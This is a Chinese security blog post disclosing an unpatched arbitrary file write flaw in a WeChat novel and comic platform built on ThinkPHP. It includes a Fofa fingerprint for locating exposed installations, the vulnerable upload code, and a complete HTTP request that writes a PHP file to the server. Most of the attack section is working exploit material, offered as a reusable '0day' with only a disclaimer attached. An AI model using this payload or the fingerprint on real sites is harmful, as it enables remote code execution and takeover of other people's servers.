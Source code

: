 #  微信公众号小说漫画系统前台任意文件写入漏洞(RCE)   
原创 Mstir  星悦安全   2024-10-05 11:16  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
******源码描述：修复版掌上阅读小说源码_公众号漫画源码可以打包漫画app，掌上阅读小说源码支持公众号、代理分站支付功能完善强大的小说源码，可以对接微信公众号、APP打包。支持对接个人微信收款。**  
  
**1新增签到、平台分享奖励书币、小说推广链接生成，更好的推广平台增加粘性。**  
  
**2.新增可自定义中间和底部导航。**  
  
**3.新增可添加章节广告增加收益.**  
  
**4.可以管理公众号菜单、消息推送、自定义回复。**  
  
**5.可以添加加盟商分站，可添加代理、自定义扣量。**  
  
**Fofa指纹:"/Public/home/mhjs/jquery.js"**  
  
****  
**框架:ThinkPHP 3.2.3 Debug:True**  
## 0x01 漏洞分析&复现  
  
**需要普通用户登录权限(可直接注册)**  
  
**位于 /Application/Home/Controller/IndexAjaxController.class.php 控制器的Upload方法通过base64传入img,size两个参数，然后再通过file_put_contents函数来将base64编码后的文件写入到Upload目录之中去.**  
  
**需要注意的是 size 参数为传入的img参数的长度( 包括data:///协议本体)**  
```
/**
* 公共上传图片方法
*/
public function Upload(){
  $base64_image_content = I("post.img");
  $image_name = I("post.name");
  $len = I("post.size");
  $baseLen = strlen($base64_image_content);
  if($len!=$baseLen)  $this->error("上传图片不完整");
  if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)){
    $uploadFolder  = C('UPLOADPATH').date("Ymd")."/";
    if(!is_dir($uploadFolder)){
      if(!mkdir($uploadFolder, 0755, true)){
        $this->error('创建文件失败');
      }
    }
    $type = $result[2];
    if(empty($image_name)){
      $new_file = $uploadFolder.date("His")."_".mt_rand(0, 1000).".{$type}";
    }else{
      $new_file = $uploadFolder.$image_name."_".date("mdHis").".{$type}";
    }
    $img_64 = base64_decode(str_replace($result[1], '', $base64_image_content));
    if (file_put_contents($new_file,$img_64)){
      $this->success(complete_url($new_file));
    }
  }else{
    $this->error("图片不存在");
  }

}
```  
  
**Payload:**  
```
POST /index.php?m=&c=IndexAjax&a=Upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 78
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=bf13e78oe1uqp8nh3crld1gu55; uloginid=107639
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/index.php?m=&c=IndexAjax
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

img=data:image/php;base64,YTw/cGhwIHBocGluZm8oKTs/Pg==&size=50
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dd5abOpeCETs07ZVhZO7hqT9QOGkHhQL89K80vNhmib7TFXCrB2jWcW9leEWEJm1RuH1qRGoFwcpA/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dd5abOpeCETs07ZVhZO7hqgoH72kkHktdYmM4AC5uNibdyIh3HV8XGaK0v0H5SBibyJsdicA7JOCscw/640?wx_fmt=other&from=appmsg "")  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**漫画系统源码关注公众号发送 241004 获取!**  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
